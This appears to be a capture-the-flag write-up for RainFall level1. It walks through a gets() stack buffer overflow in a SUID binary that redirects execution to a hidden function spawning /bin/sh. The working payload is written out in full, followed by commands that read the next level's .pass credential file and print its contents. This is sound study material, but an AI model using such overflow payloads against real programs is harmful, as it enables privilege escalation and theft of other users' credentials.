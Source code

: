 We can see the program simply use the function gets(), and take the input of user :

```
(gdb) disass main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```

By examining the man of the gets() function, it becomes evident that the function is deprecated and poses a security vulnerability:

```
Never use gets(). Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use. 
```

The program has the SUID bit set, and a buffer overflow is possible due to the use of gets().
I chose to use Ghidra, so I exported the program using scp :

```
scp -P 4242 level1@127.0.0.1:/home/user/level1/level1 .
```

We see the decompiled version of the main :

```C
void main(void)

{
  char local_50 [76];
  
  gets(local_50);
  return;
}
```

If we write more than the buffer's allocated space, the program triggers a segfault :

```shell
level1@RainFall:~$ python -c "print('A' * 80)" | ./level1
Segmentation fault (core dumped)
```

Another interesting function is visible in the program:

```shell
                             undefined run()
             undefined         AL:1           <RETURN>
             undefined4        Stack[-0x10]:4 local_10                                XREF[1]:     08048456(W)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     0804845a(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[1]:     08048462(W)  
             undefined4        Stack[-0x1c]:4 local_1c                                XREF[2]:     0804846a(*), 
                                                                                                   08048472(*)  
                             run                                             XREF[3]:     Entry Point(*), 080485a0, 
                                                                                          0804860c(*)  
        08048444 55              PUSH       EBP
        08048445 89 e5           MOV        EBP,ESP
        08048447 83 ec 18        SUB        ESP,0x18
        0804844a a1 c0 97        MOV        EAX,[stdout]
                 04 08
        0804844f 89 c2           MOV        EDX,EAX
        08048451 b8 70 85        MOV        EAX,s_Good..._Wait_what?_08048570                = "Good... Wait what?\n"
                 04 08
        08048456 89 54 24 0c     MOV        dword ptr [ESP + local_10],EDX
        0804845a c7 44 24        MOV        dword ptr [ESP + local_14],0x13
                 08 13 00 
                 00 00
        08048462 c7 44 24        MOV        dword ptr [ESP + local_18],0x1
                 04 01 00 
                 00 00
        0804846a 89 04 24        MOV        dword ptr [ESP]=>local_1c,EAX=>s_Good..._Wait_   = "Good... Wait what?\n"
        0804846d e8 de fe        CALL       <EXTERNAL>::fwrite                               size_t fwrite(void * __ptr, size
                 ff ff
        08048472 c7 04 24        MOV        dword ptr [ESP]=>local_1c,s_/bin/sh_08048584     = "/bin/sh"
                 84 85 04 08
        08048479 e8 e2 fe        CALL       <EXTERNAL>::system                               int system(char * __command)
                 ff ff
        0804847e c9              LEAVE
        0804847f c3              RET
```

The decompiler give us this :

```C
void run(void)

{
  fwrite("Good... Wait what?\n",1,0x13,stdout);
  system("/bin/sh");
  return;
}
```

This function is present in the program but never called by the main. However we can use a buffer overflow to manipulate the program's execution flow and make it jump to this function.

The entry point seems to be at: `08048444 55 PUSH EBP``

If we write the adress in little endian after the initial 76 characters :

```shell
level1@RainFall:~$ python -c "print('A' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Although we see the call to fwrite, the program stops without staying within /bin/sh. To overcome this, we can append a cat command to redirect the standard outputs towards the program's /bin/sh:

```shell
level1@RainFall:~$ (python -c "print('A' * 76 + '\x44\x84\x04\x08')" && cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

And we get the flag !